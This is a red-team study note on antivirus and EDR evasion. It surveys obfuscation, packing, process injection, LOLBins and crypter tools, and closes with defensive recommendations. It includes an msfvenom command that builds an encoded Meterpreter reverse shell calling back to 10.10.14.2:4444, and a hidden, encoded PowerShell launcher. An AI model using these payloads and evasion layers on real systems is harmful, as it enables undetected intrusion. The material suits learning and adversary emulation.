**Antivirus evasion** refers to the techniques used to **bypass detection by antivirus (AV), EDR, and other security solutions** when delivering or executing malicious payloads. These methods are common in **red teaming**, **malware development**, and **adversary emulation**.

> 🧠 The goal is not to disable AV, but to **avoid detection long enough to execute the payload**.

---

## 🎯 Why It Matters

- AV engines use **signature, heuristic, and behavioral detection**
- Default payloads (e.g., from `msfvenom`) are easily flagged
- Evasion is key in **post-exploitation**, **malware staging**, and **stealth persistence**

---

## 🧱 Detection Types & Evasion Goals

| Detection Type       | Description                          | Evasion Strategy                        |
|----------------------|--------------------------------------|------------------------------------------|
| **Signature-based**   | Matches byte patterns (hashes, strings) | Obfuscate code, change payload structure |
| **Heuristic-based**   | Suspicious patterns or behaviors     | Break known patterns, add junk logic     |
| **Behavioral (EDR)**  | Monitors API calls, memory ops, flow | Delay execution, use LOLBins, evade memory inspection |

---

## 🛠 Static Evasion Techniques

| Technique             | Description                                |
|-----------------------|--------------------------------------------|
| **Encoding/Obfuscation** | Use `msfvenom` encoders or custom encoders |
| **Packing**           | Compress/encrypt with UPX or custom packers|
| **String Encryption** | Encode suspicious strings (e.g., base64)   |
| **Custom Compilation**| Recompile payload with minor changes       |
| **Change Metadata**   | Modify filename, icon, PE headers          |
| **Split Logic**       | Break payload into multiple smaller stages |

### 🔧 Example with `msfvenom` + encoding:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o evade.exe
```

## 🔬 Behavioral Evasion Techniques

|Technique|Description|
|---|---|
|**Process Injection**|Inject shellcode into legit processes|
|**Memory Unhooking**|Restore/patch system functions to bypass EDR|
|**Parent Spoofing**|Spawn from `explorer.exe`, `svchost.exe`, etc|
|**Delay Execution**|Sleep or loop before payload runs|
|**Indirect Syscalls**|Avoid detection by using syscall stubs|
|**LOLBins**|Use `mshta`, `rundll32`, `regsvr32`, etc.|

---

## 🧩 Common Tools for Evasion

|Tool / Framework|Purpose|
|---|---|
|**Veil Framework**|Payload obfuscation for AV evasion|
|**Shellter**|Inject shellcode into clean PE files|
|**Nimcrypt**|Create payloads using Nim for AV evasion|
|**Donut**|Convert .NET DLLs/EXEs into shellcode|
|**CactusTorch**|Reflective DLL injection via macros|
|**FUDcry**|Crypter that obfuscates known payloads|

---

## 🧠 Best Practices

- Use **custom payloads**, not off-the-shelf
- Combine **multiple evasion layers** (e.g., obfuscation + LOLBin + injection)
- Test in **realistic EDR environments** (e.g., Defender, CrowdStrike)
- Monitor with **Sysmon** and **procmon** to understand detection triggers
- Use **encryption and staging** for payload delivery

---

## 📘 Example: Evasion via PowerShell LOLBin

```
powershell -nop -w hidden -enc <base64-encoded-payload>
```

- Avoids writing payload to disk
- Encoded and executed entirely in memory
- Triggered via Office macro or HTA

## 🧪 Testing Efficacy

|Service / Tool|Purpose|
|---|---|
|**VirusTotal**|Multi-engine AV scanning (non-private!)|
|**Any.Run**|Online sandbox with AV/EDR simulation|
|**CAPE Sandbox**|Analyze dropped files, processes, and registry keys|
|**Sysmon + ELK**|Detect suspicious execution flows|

> ⚠️ Never upload red team payloads to VirusTotal unless it’s scrubbed of unique signatures.

---

## 🔐 Defensive Recommendations

- Monitor LOLBins and encoded PowerShell
- Detect parent/child anomalies (e.g., `WINWORD → powershell`)
- Enable advanced logging (Sysmon, command-line auditing)
- Block unsigned macros and scripting tools (AppLocker/WDAC)
- Use EDR/XDR with behavioral detection, not just AV

---

## 🔗 Related Topics

- [[Payload Creation with msfvenom]]
- [[EDR and Threat Detection]]
- [[Post-Exploitation]]
- [[Persistence Techniques]]
- [[Metasploit Framework]]

---

## 🏷 Suggested Tags

#antivirus_evasion #red_team #post_exploitation #obfuscation #bypass #payloads #defense_evasion #mitre_attack

---

## ✅ To Do

-  Build and encode payloads using multiple encoders
-  Simulate evasion via PowerShell and measure detection
-  Test payloads in EDR/AV-equipped VMs
-  Document which evasions are blocked by each solution
